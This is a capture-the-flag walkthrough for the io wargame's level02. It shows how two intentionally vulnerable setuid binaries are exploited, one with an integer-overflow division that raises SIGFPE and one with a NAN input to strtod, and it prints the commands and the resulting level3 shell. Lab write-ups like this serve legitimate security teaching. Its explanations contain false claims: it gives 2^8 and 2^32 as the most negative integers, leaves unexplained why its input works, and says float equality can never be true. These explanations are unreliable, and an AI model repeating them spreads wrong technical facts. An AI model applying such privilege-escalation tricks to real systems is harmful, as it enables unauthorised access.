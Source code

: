 ## First Look

```sh
level2@io:/levels$ ls -la level02*
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```
There are 2 different binaries one can exploit to proceed to level3.
The challenge authors are very nice to include source code for both of them.

## level02.c
```sh
level2@io:/levels$ file level02
level02: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=aebfcd8c513176fcf9243deeeeda9720979a2ec9, not stripped
```
Info: Dynamically linked, x86 architecture for Intel and ELF binary.
```C
//a little fun brought to you by bla
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	    printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}
int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");
    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
From above, we see that our goal is to call catcher. `argc` is argument count of a program. It includes the program name itself as argv[0]. Hence, the above program requires `./level02 arg1 arg2` in order to not return 1. Arg2 cannot be zero too hence, this guards against Divison by Zero Error.

When encountering a function like `signal`, we can always consult the man page `man signal`. 

```man
sighandler_t signal(int signum, sighandler_t handler);
```
From the man page, we read that a program can deliver signals in the form of `signum` to the process. This is very familiar to how one usually abort a program via `^C`. In fact, `^C` actually sends a SIGINT to the process.

Back to the code, we see that we have to somehow trigger a `SIGFPE`, floating point error. If you look closely in the man page, you will see a way to do so!

![signal man page](./images/image1.png)

Let us try out division of most negative integer by -1.

## most negative integer?
From our initial information gathering, we know that this is a 32 bit program. 
In computer, numbers are represented by bits. How about signed number? Simple. 
The most significant bit (leftmost) is reserved as *sign bit*.
The number is negative when sign bit is 1 else postive when 0.
### 8 bits example

0b00000001    = +1
0b00000010    = +2
0b00000000    = 0
0b11111111    = -1    
Huh? Why is this so? Won't one expect 0b10000001 to be the answer?
### 2's complement
To represent an integer -12. 
We first calculate what is +12  ->  0b00001100.
1. Flip the bits        0b00001100 -> 0b11110011
2. Add 1                0b11110011 -> 0b11110100 ( -12 )

The most negative number would be 2^8 (0b10000000) in the 8bits register.
Hence for 32 bit, it would be 2^32

```sh
level2@io:/levels$ python
Python 2.7.13 (default, Nov 24 2017, 17:33:09) 
[GCC 6.3.0 20170516] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 2**32
4294967296L
```
-4294967296 is the most negative number.

```sh
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$ id
uid=1003(level3) gid=1002(level2) groups=1002(level2),1029(nosu)
sh-4.3$ whoami
level3
```


## level02_alt.c
```C
/* submitted by noname */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define answer 3.141593
void main(int argc, char **argv) {
	float a = (argc - 2)?: strtod(argv[1], 0);
        printf("You provided the number %f which is too ", a);
        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```
The above took me a while to solve. You might expect keying in 3.141593 to give you an easy shell. However, the trap is that this is a floating point number. In computer science, comparison with a floating point such as `==` can be very dangerous because it can never be true. 
( you can login to level3 and read the write up inside which explains why it will never be true. )

To solve this challenge, you need to recognize that you have to fail the first 2 condition ( a < answer ) and ( a > answer ). Lets read the man page for `strtod`

![man page strtod](./images/image2.png)

Turns out that `strtod` allows one to specific special tokens like INF for infinity and NAN for not a number. By specifying NAN, both conditions will fail regardlessly hence allowing us to go into the else function.

```sh
level2@io:/levels$ ./level02_alt NAN
sh-4.3$ id
uid=1002(level2) gid=1002(level2) euid=1003(level3) groups=1002(level2),1029(nosu)
```
